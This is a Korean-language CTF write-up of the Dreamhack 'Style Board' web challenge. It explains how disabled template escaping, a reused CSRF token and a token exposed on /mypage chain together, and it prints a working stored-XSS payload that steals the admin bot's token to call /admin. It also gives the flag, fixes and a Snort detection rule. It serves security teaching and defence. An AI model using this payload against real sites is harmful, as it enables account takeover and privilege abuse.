





# [Dreamhack CTF] Style Board - Web Hacking

## 1. 문제 개요

* **문제 링크:** 

* **티어:** 

* **분야:** Web

* **목표:** CSRF 토큰 노출 및 Stored XSS를 결합한 관리자 봇 세션 탈취를 통한 flag 획득

## 2. 취약점 분석
제공된 `app.py`, `view_post.html`, `mypage.html` 분석 결과, 세 가지 결함이 결합되어 단일 공격 체인을 형성함을 확인.

`view_post.html`은 다른 템플릿과 달리 ``로 Jinja2의 기본 이스케이핑을 명시적으로 해제한 구조로 확인, 게시글 `content` 필드에 저장된 값이 이스케이프 없이 그대로 응답에 삽입되어 Stored XSS가 성립함.

```jinja-html
{# [view_post.html] autoescape 명시적 해제 - Stored XSS 발생 지점 #}

{{ post.content }}

```

`get_token()` 함수가 엔드포인트 구분 없이 유저별 단일 CSRF 토큰을 발급하고 재사용하는 구조로 확인, `board_write`, `style`, `mypage`, `admin` 전 라우트가 동일한 토큰을 검증에 사용함.

```python
# [app.py] CSRF 토큰 발급 - 엔드포인트 구분 없이 유저당 1개만 고정 발급
def get_token(username):
    token = token_storage.get(username)
    if token == None:
        token = generate_token(username)
    return token
```

`mypage.html`의 hidden input에 세션 소유자의 CSRF 토큰이 값 그대로 노출되는 구조로 확인, 관리자 봇이 이 페이지를 방문하면 응답 body에서 admin의 토큰을 그대로 추출 가능함.

```jinja-html
{# [mypage.html] admin 세션 방문 시 admin의 CSRF 토큰이 hidden input에 노출 #}
<input type="hidden" id="csrf-token" name="csrf-token" value="{{ csrf_token }}" required>
```

`check_url()` 함수가 `Promise().then()` 체인을 사용하나 Python은 인자를 즉시 평가하는 언어라 실질적으로 동기 순차 실행되는 구조로 확인, admin 계정 로그인 후 지정된 URL로 이동하는 흐름이 그대로 보장됨. 이 함수는 `True`/`False`만 반환하고 봇이 방문한 페이지의 응답 내용은 반환하지 않는 구조로 확인, 즉 `/report`를 통한 임의 URL 직접 조회로는 결과 확인이 불가능함.

```python
# [app.py] check_url() - Promise 패턴이지만 인자 즉시 평가로 사실상 동기 실행, 응답 내용 미반환
def check_url(url):
    # ... (중략) ...
    driver_promise = Promise(driver.get("http://127.0.0.1:8000/login"))
    driver_promise.then(driver.find_element(By.NAME, "username").send_keys("admin"))
    driver_promise.then(driver.find_element(By.NAME, "password").send_keys(users["admin"]))
    driver_promise = Promise(driver.find_element(By.ID, "submit").click())
    sleep(1)
    driver_promise.then(driver.get(url))
```

* **분석 결론:** `/admin` sink의 두 조건(`is_admin` 세션, `csrf-token` 일치)을 기준으로 역추적한 결과, `is_admin`은 admin 비밀번호가 런타임 랜덤(`app.secret_key` 해시)이라 직접 충족이 불가능해 `check_url()`의 대리 로그인 경로가 필요했고, `csrf-token`은 `get_token()` 호출부 전수 조사로 노출 라우트(`mypage`, `style`, `board_write`)를 특정했으나 `check_url()`이 응답 내용을 반환하지 않아 직접 조회가 불가능함을 확인, 이에 따라 봇 브라우저 내부에서 값을 읽고 우리가 접근 가능한 공유 저장소(`posts`)로 반출하는 XSS 체인이 요구됨을 판단함. `autoescape false`로 인한 Stored XSS, 엔드포인트 무관 고정 CSRF 토큰, `/mypage`를 통한 admin 토큰 노출이 결합되어, 일반 사용자가 작성한 게시글을 `/report`로 신고하면 admin 세션의 브라우저에서 XSS가 실행되고, 그 안에서 admin의 CSRF 토큰을 탈취해 `/admin` 엔드포인트를 호출, flag를 획득 가능한 구조로 확인.

## 3. 공격 수행
payload는 `/board/write` 제출 시점엔 `posts`(전역 게시글 리스트)에 문자열로 저장만 되며 실행되지 않고, 이후 `/report`로 유도된 봇이 `GET /board/<id>`(view_post)를 열람해 응답 HTML을 파싱하는 시점에 비로소 봇의 브라우저에서 실행됨.

1. 임의 계정으로 로그인 후 `/board/write`에서 관리자 토큰 탈취 → `/admin` 호출 → 결과를 새 게시글로 저장하는 payload 작성 후 제출.

```javascript
// Payload - board/write content
<script>
fetch('/mypage')
  .then(r => r.text())
  .then(t => {
    const token = t.match(/id="csrf-token" name="csrf-token" value="([^"]+)"/)[1];
    return fetch('/admin', {
      method: 'POST',
      headers: {'Content-Type': 'application/x-www-form-urlencoded'},
      body: 'csrf-token=' + encodeURIComponent(token)
    }).then(r => r.json()).then(d => ({token, flag: d.flag}));
  })
  .then(({token, flag}) => {
    return fetch('/board/write', {
      method: 'POST',
      headers: {'Content-Type': 'application/x-www-form-urlencoded'},
      body: 'title=leak&content=' + encodeURIComponent(flag) + '&csrf-token=' + encodeURIComponent(token)
    });
  });
</script>
```



2. Burp Suite HTTP History에서 저장된 게시글(`GET /board/2`) 요청을 확인, Response Raw 탭에서 스크립트 태그가 이스케이프 없이 그대로 반영됨을 확인해 `autoescape false` 구조를 wire 레벨에서 검증.



3. 3. `check_url()`의 봇 유도 경로를 이용해 `/report`에 `path=board/2` 제출, 관리자 봇이 admin 세션으로 해당 게시글을 열람해 XSS가 실행됨을 Success alert로 확인.



4. 잠시 대기 후 `/board` 목록에서 admin 계정으로 작성된 leak 게시글이 새로 생성됨을 확인.



5. 해당 게시글을 열람해 flag 값 확인.



## 4. 획득 결과
CSRF 토큰 미분리 및 `autoescape` 해제로 인한 Stored XSS를 결합, 관리자 봇 세션에서 admin의 CSRF 토큰을 탈취하고 `/admin` 엔드포인트를 직접 호출해 flag를 새 게시글로 저장시킨 뒤 일반 세션에서 확인.

* **FLAG:** `DH{1NSEcur3_C5S_h4ND1ing:c+S2/Upem68BMbrWKNy/9w==}`

## 5. 대응 방안
템플릿 이스케이프 해제와 CSRF 토큰 설계 결함이 결합되어 발생한 취약점이므로, 시큐어 코딩 관점에서 각 지점별 개별 수정 필요.

* **`autoescape` 재활성화:** `view_post.html`의 `` 지시문 제거, 게시글 content는 Jinja2 기본 이스케이프를 그대로 적용해 저장형 XSS 자체를 차단.

* **엔드포인트별 CSRF 토큰 분리:** `get_token()`을 유저 단위가 아닌 (유저, 엔드포인트) 단위로 발급하거나, Flask-WTF 등 표준 라이브러리 기반의 요청별 1회성 토큰으로 교체.

* **CSRF 토큰 노출 범위 최소화:** `/mypage` 등 GET 응답에 토큰 값을 평문 노출하지 않고, 별도의 인증된 API 호출을 통해서만 토큰을 발급하도록 구조 변경.

* **`check_url()` 로직 검증 강화:** Promise 패턴 오용 제거, 각 Selenium 액션의 성공 여부를 명시적으로 확인한 뒤 다음 단계로 진행하도록 동기 코드로 재작성, 임의 URL로의 이동 전 도메인 화이트리스트 검증 추가.

* **쿠키 속성 강화:** 세션 쿠키에 `SameSite=Strict`, `HttpOnly` 속성을 적용해 CSRF 및 XSS를 통한 세션 정보 접근 경로를 추가로 차단.

## 6. 블루팀 관점 요약
보안관제 및 침해사고 대응(IR) 관점에서, Stored XSS를 이용한 CSRF 토큰 탈취 및 관리자 권한 오남용 행위 탐지.

* **WAF 및 웹 서버 로그 분석:** `POST /board/write` 요청 body에 `<script`, `fetch(`, `document.cookie`가 아닌 `/mypage`, `/admin`, `csrf-token` 등 내부 엔드포인트를 대상으로 한 fetch 체인이 포함된 패턴 식별, 동시에 `GET /report` 요청의 `path` 파라미터가 `board/`로 시작하는 패턴 식별.

* **침해사고 대응(IR) 시나리오:** 일반 사용자 세션에서 `POST /board/write` 발생 직후 동일 사용자의 `POST /report` 요청이 이어지고, 이후 admin 세션에서 짧은 시간 내 `GET /mypage → POST /admin → POST /board/write` 순의 연속 호출이 관측될 경우 관리자 봇 세션이 탈취되어 XSS 페이로드가 실행된 것으로 판단.

* **네트워크 기반 탐지 룰 제안 (Snort 3):**

  - `/board/write` 요청 body에 `<script` 태그와 내부 민감 엔드포인트(`/mypage`, `/admin`) 참조가 동시 포함된 요청 탐지.

  - `alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"[Web] Stored XSS via CSRF Token Leak - Admin Bot Exploitation Attempt"; flow:to_server,established; http_uri; content:"/board/write"; http_client_body; content:"<script"; distance:0; pcre:"/fetch\(.\/mypage.|csrf-token|\/admin/i"; sid:1000008; rev:1;)`